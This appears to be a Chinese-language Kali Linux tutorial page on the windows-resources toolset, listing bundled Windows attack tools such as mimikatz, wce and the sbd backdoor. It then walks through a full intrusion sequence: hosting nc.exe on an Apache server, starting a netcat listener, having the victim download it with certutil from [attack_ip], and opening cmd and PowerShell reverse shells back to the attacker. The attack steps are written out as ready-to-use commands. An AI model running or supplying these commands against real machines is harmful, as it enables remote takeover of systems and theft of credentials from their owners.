 用于存放 windows 渗透工具

```shell
┌──(root㉿kali)-[~]
└─# windows-resources
```

```shell
/usr/share/windows-resources
├── binaries
├── dbd
├── hyperion
├── mimikatz
├── powershell-empire -> ../powershell-empire
├── powersploit
├── sbd
└── wce
```

```
binaries			用于渗透测试的 Windows 可执行文件
dbd					渗透测试的数据库工具
hyperion			生成和混淆 Metasploit 模块的工具
mimikatz			获取 Windows 系统密码哈希值的工具
powershell-empire	PowerShell 脚本
powersploit			PowerShell 脚本
sbd					在受控主机和攻击者之间建立加密的通信信道的 SBD（安装后门）工具
wce					获取 Windows 系统密码哈希值的工具
```

复制 `nc.exe` 到 `upload` 目录

```shell
┌──(root㉿kali)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/upload/
```

开启 Web

```shell
┌──(root㉿kali-23)-[~]
└─# sudo systemctl start apache2.service && sudo systemctl status apache2.service
```

监听端口

```shell
┌──(root㉿kali-23)-[~]
└─# nc -lvnp [attack_port]
```

受害者下载 `nc.exe` 

```cmd
C:\Users\sec\Downloads>certutil -urlcache -split -f http://[attack_ip]/upload/nc.exe [nc_path]
```

CMD 反弹 Shell

```powershell
PS C:\Users\Administrator> C:\Users\sec\Downloads\nc.exe -e cmd [attack_ip] [attack_port]
```

PowerShell 反弹 Shell

```powershell
PS C:\Users\Administrator> C:\Users\sec\Downloads\nc.exe -e powershell [attack_ip] [attack_port]
```

---

References

- [windows-resources](https://www.kali.org/tools/windows-binaries/#windows-resources)
